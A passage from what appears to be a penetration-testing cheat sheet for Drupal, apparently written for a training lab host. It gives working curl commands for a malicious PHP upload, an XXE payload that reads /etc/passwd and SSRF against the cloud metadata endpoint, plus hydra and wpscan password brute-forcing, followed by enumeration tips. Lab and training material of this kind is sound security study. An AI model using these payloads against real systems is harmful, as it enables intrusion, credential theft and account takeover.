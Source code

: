 ```sh
curl -F "file=@malicious.php" http://drupal.inlanefreight.local/upload_path
```

* Test various file extensions.
* **Consideration:** Look for MIME type enforcement.

### 10. Access Control Vulnerabilities

```sh
curl -I http://drupal.inlanefreight.local/admin
```

* Check for 200 response when not authenticated.
* **Consideration:** Test different user roles.

### 11. Session Management Vulnerabilities

* Use Burp Suite's Sequencer and Session handling rules.

### 12. XML External Entity (XXE) Injection

```sh
curl -X POST -H "Content-Type: application/xml" -d '<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><foo>&xxe;</foo>' http://drupal.inlanefreight.local/xml_endpoint
```

### 13. Server-Side Request Forgery (SSRF)

```sh
curl "http://drupal.inlanefreight.local/page?url=http://169.254.169.254/latest/meta-data/"
```

* **Consideration:** Check response for internal metadata leaks.

### 14. Drupal Brute Forcing

```sh
wpscan --url http://drupal.inlanefreight.local/ --enumerate u --passwords /usr/share/wordlists/rockyou.txt
hydra -l admin -P /usr/share/wordlists/rockyou.txt drupal.inlanefreight.local http-post-form "/user/login:name=^USER^&pass=^PASS^&form_id=user_login:Invalid username or password"
```

* **Consideration:** Use specific tools for Drupal authentication mechanisms.

### Additional Notes:

* **Ensure Drupal versions are known before testing specific exploits.**
* **Use enumeration tools like droopescan for discovering modules and themes.**
* **Test patches and mitigations post-exploitation to ensure security fixes.**

### Important Details & Considerations:

* **JavaScript Versioning:** Check core and theme JavaScript for Drupal version.
* **Module Versioning:** Find exact module versions using .info.yml or similar files.
* **Theme Versioning:** Check style.css or .info.yml for theme versions.
* **Drupal File Structure:** Understand core directories like /modules/, /themes/, and /sites/.
* **robots.txt:** Pay close attention to disallowed directories that may reveal sensitive information.
* **Drupal REST API:** If enabled, thoroughly enumerate the REST API.
* **Database Version:** If database access is gained, query the system table for the Drupal version.
* **User Enumeration:** Identify publicly accessible user profiles and potential admin accounts.
* **Service Endpoints:** Check REST endpoints for exposed sensitive data.
* **Content Enumeration:** Investigate sequential node IDs and JSON API exposure.
* **Backup & Debug Files:** Identify any misconfigured backups or exposed debugging information.
* **Admin Access:** Determine if direct access to the admin panel is possible.
* **GraphQL API:** Enumerate GraphQL endpoints for schema exposure.